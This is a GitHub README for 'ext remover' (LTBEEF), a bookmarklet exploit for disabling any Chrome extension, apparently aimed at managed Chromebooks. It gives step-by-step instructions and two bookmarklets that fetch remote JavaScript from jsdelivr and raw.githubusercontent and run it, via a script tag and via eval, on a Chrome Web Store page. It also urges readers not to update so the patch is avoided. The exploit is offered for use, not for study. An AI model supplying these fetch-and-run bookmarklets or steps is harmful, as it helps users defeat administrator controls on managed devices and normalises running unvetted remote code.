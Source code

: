 # ext remover

![image](https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png)

Bookmarklet exploit that can force-disable any extension installed on Google Chrome. Also known as LTBEEF.

**DO NOT UPDATE YOUR CHROMEBOOK! This exploit might have been patched, so do not update!**

## Instructions

Here are the instructions to using this exploit! There are two ways, using the GUI and using the ids, the GUI method is better

### Ingot (GUI)

Credit to Nebelung for this, [link to the github](https://github.com/FogNetwork/Ingot)

For easy setup go the the website at https://fognetwork.github.io/Ingot

1. Show your bookmarks bar with `ctrl + shift + b`
2. Right click on the bar and choose `Add Page`
3. Set the name to `Ingot` and the URL to the code below or [here](https://github.com/FogNetwork/Ingot/blob/main/bookmarklet.js)

```js
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
```
**If this helped please give me a star!**

![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)

### Using the GUI

Credit to CompactCow#4717 for the amazing UI!

1. Right click on the bar and choose `Add Page`
1. Set the name to `GUI` and the URL to the code below or [here](https://github.com/3kh0/ext-remover/blob/main/gui.js)
```js
javascript:fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```
3. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
4. Click the bookmark (Make sure you are on the page above!)
5. Use the menu to toggle your extensions!

**If this helped please give me a star!**

![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)

### Using IDs

#### Disabling 

1. Visit chrome://extensions and on the extension you want to disable click on Details
2. Copy the text in the URL after the `?id=`
> For example if you have this URL: `chrome://extensions/?id=echoontop` you would only copy `echoontop`
3.  Go to the file [`bookmark.js`](https://github.com/3kh0/ext-remover/blob/main/bookmark.js) and copy everything and create a new bookmark and use the code you copied as the Page URL
4. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
5. Click the bookmark (Make sure you are on the page above!)
6.  Put the ID you copied into the text box.

You're done! The extension should now be disabled.

**If this helped please give me a star!**

#### Enabling

1. Visit chrome://extensions and on the extension you want to enable click on Details
2. Click View in Chrome Web Store
3. You will see a banner at the top of the page that says This item has been disabled in Chrome. Enable this item
4. Click on Enable this item

You're done! The extension should now be enabled.

**If this helped please give me a star!**

Credit bypassi for finding and making this exploit!

